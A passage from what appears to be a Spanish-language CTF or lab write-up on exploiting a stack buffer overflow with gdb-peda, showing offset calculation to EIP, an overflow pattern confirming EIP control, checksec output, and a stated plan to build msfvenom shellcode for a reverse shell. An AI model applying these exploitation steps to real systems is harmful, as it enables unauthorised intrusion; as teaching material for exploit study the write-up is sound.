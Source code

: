Explicación: obtener el **Offset** o **desplazamiento** o **distancia** hasta EIP lo podemos calcular introduciendo en lugar de 200 'A' esta otra secuencia de 200 caracteres que nos van a  permitir saber el nº exacto de caracteres donde se produce el desbordamiento

![Captura](./Imágenes/PEDA_2.png)

Acción: lo cómodo de usar **gdb-peda** es que podemos calcular el *offset* fácilmente de la siguiente manera 

```bash
gdb-peda$ pattern offset $eip
1950433622 found at offset: 168
```

Explicación: ahora sabemos que son 168 caracteres los permitidos, y que a partir de ahí se producirá el *BOF* (es decir, sobrescribir el EIP), lo que nos permite avanzar en el proceso de introducir los comandos para una *Reverse Shell*

Acción: imprimimos 168 'A' y añadimos 4 'B' 

```bash
python -c 'print("A"*168 + "B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Resultado: volvemos a repetir el proceso y esta vez vemos si tenemos control sobre el EIP y vemos los valores de 4 'B' que son 42424242

![Captura](./Imágenes/PEDA_3.png)

**Confirmamos control sobre el valor EIP**

Acción: usamos el comando `checksec` dentro del gdb-peda para ver que esta habilitado y deshabilitado. 

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

Acción: ahora buscamos controlar la *pila o stack* para la ejecución de comandos. Usamos `i r` para ver información sobre el registro y lueog comprobamos los 16 valores del *esp* y de *eax*

![Captura](./Imágenes/PEDA_5.png)

![Captura](./Imágenes/PEDA_4.png)

Explicación: hemos visto el contenido del *esp* pero no hemos encontrado nuestras 'A' `0x41414141` pero al analizar el registro de *eax* sí que vemos los valores de 'A' pero al retroceder 4 registros vemos que ya aparece otro valor

Acción: vamos a crear un shellcode con *msfvenom*
